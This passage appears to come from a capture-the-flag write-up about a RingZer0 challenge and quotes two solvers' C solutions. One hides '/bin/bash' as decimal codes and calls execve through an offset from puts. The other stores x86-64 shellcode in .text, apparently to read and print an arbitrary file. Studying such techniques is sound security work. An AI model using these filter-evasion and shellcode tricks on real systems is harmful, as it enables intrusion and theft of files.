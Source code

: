 By calculating the offset between `puts` and `execve` he/she could then build following code:

```.c
int (*real_execve)(const char *, char *const *, char * const *) = (void*)puts + <OFFSET>;
char program[] = {47, 98, 105, 110, 47, 98, 97, 115, 104, 0};
real_execve(program, 0, 0);
```

Clever!

### Execute shellcode

Since I was initially trying to execute shellcode, I was very curios about any similar solutions. [killer2](https://ringzer0team.com/profile/5732) had a very elegant solution:

```.c
// Place the shellcode inside the .text section
static const char __attribute__((section (".text"))) code[] = { 72,129,236,255,15,0,0,72,49,255,72,141,52,36,106,50,90,72,49,192,15,5,72,135,254,72,49,246,106,2,88,15,5,72,141,52,36,106,100,90,72,151,72,49,192,15,5,106,1,95,72,137,194,106,1,88,15,5,72,129,196,255,15,0,0,195 };

// Run the shellcode
(*(void(*)())code)();
```

Nice!

> You can find [here](https://gcc.gnu.org/onlinedocs/gcc-4.0.0/gcc/Function-Attributes.html) more information about function attributes. 
